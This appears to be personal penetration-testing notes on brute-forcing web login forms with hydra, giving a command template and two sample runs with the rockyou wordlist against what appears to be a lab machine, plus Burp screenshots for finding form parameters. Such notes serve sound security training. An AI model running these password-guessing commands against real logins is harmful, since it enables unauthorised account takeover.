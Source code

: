 ## Web content
#### Command
- `hydra -l {User_List} -P {Pass_List} {IP_Address} https-post-form "{Login_Path}:{password_name}=^PASS^&proc_login=true:{Failed_contents}" -t 64 -V`  
#### sample1
- `hydra -l none -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 64 -V`
#### Search
- Burp
  - Target
    - Method:POST
      ![image](https://github.com/user-attachments/assets/9556b51a-e9a5-4cd8-b45b-a00203404bf6)
#### sample2
- `hydra -V -f -l admin -P ./rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password!'`
- Burp
  - Target
    - Method:POST
      ![image](https://github.com/user-attachments/assets/fc3279cf-4b6a-4a32-83cb-666080a76aef)

